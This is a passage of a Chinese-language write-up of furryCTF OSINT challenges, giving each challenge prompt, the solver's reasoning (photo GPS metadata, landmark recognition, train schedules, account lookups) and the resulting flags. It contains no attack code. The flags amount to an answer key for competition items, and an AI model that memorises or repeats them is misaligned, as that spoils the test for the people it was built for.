排序后分别为：maimai、太鼓之达人、头文字D，对应的flag就是furryCTF{312-573}
```


> 咚 咚 咚 ，新的旅行伙伴加入了！~~awmc~~

这题是真煎熬，不好说qwq。

题目给的是个压缩包，在图片属性里面能找到有用的GPS定位信息。



~~当时还以为这个位置被出题人污染了，一看114514（）~~

23°11'45.14"N,113°15'24.74"E 高度大概是3楼的样子。



在全国音游地图里面找，通过找地图能找到这个[疯狂牛仔城白云百信店 - BEMANICN](https://map.bemanicn.com/shop/3824)，并且通过比对反射的灯光能非常确定是这家店。

相比大多数人都能做到这一步。

但是，但是，


什么是**仔细读题**呢？

让我们回到题目上看看到底是什么蹊跷

```text
注：flag格式为furryCTF{当时所有机种按照名称A-Z排序后:机器台数-价格}，比如假设该区域有以下机器：
```

都出来了吗？让我们再来一遍

```text
注：flag格式为furryCTF{当时所有机种按照名称A-Z排序后:机器台数-价格}，比如假设该区域有以下机器：
```

什么？你和我说你没读出来？

> 注：flag格式为furryCTF{**当时**所有机种按照名称A-Z排序后:机器台数-价格}，比如假设该区域有以下机器：
>
>
>
> **当时**

因此你直接排序排个damn啊zwz

我们回到图片，



没错是2024年12月1号拍的。

自己去找找信息改了什么吧，最后得出来结果。

> furryCTF{22144-331238}

### s. [osint]这些东西有什么共同点？

```text
Tips：

1.Windows XP
2.悟空识字主界面背景音乐
注：flag格式为furryCTF{对应的游戏名称，不带版本}，例如植物大战僵尸2对应的flag为furryCTF{zhiwudazhanjiangshi}
```


加了hint之后秒掉了。

因为主页面 背景音乐 ，脑子第一个就想到了，XP 开机 音乐 (~~因为想到了https://www.bilibili.com/video/BV12B4y1Y7z3/~~)

于是搜了一下XP音效是个啥，

<https://www.yystv.cn/p/2287>

搜到了是双星物语。

> furryCTF{shuangxingwuyu}

### t. [osint]个人主页

```text
出题人：白风&深翼

猫猫截获了一个朋友的个人主页，但是发现好像打不开了：

http://cclmsy.gitee.io

所以，？？？？？？？？？？？？？？？？？

？？？？？？？？？？？？？？？？？？？？？

锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷锟斤拷
```

搜索cclmsy的gitee发现了神秘的furryCTF



点进去之后就是这个



然后寻找一下


> furryCTF{Hexo_Vercel_2023-12-14}

### u. [osint]旅行照片

```text
出题人：深翼

这里有一张被打了马赛克的旅行照片owo：

注：flag格式为furryCTF{所在地点名称拼音}，例如东方明珠塔对应的flag就是furryCTF{dongfangmingzhuta}
```


识图直接看出来了地方，日月双塔，然后也不知道到底是啥格式试了半天

> furryCTF{riyueshuangta}

### v. [osint]时光机

```text
猫猫的弟弟用纸箱做了一个五人组内某位成员的头：

问：这个头对应的人物2017/4/16 12:47:42更换的游戏用户名是什么？

注：flag格式为furryCTF{用户名}，例如猫猫（Cryflmind）的网名就是furryCTF{Cryflmind}
```


这题还得是某不知名学习众（x


> furryCTF{DiaMondIly}

### w. [osint]归去

```text
猫猫的弟弟要回去惹……

猫猫在送行的时候，拍下了这样一张照片……

注：flag格式为furryCTF{拍摄时正在检票的火车的终点站名称}，比如合肥南站对应的flag就是furryCTF{hefeinanzhan}。
```


先查了G2805和G3191的交叉，发现是界首南。

[https://qq.ip138.com/train/anhui/jieshounan.html](https://qq.ip138.com/train/anhui/jieshounan.htm在这里面找找大概时间就可以了。)

在这里面找找大概时间就可以了。

> furryCTF{shanghaizhan}

## End

我们能做出来的也只有这么多了，还是挺有意思的。


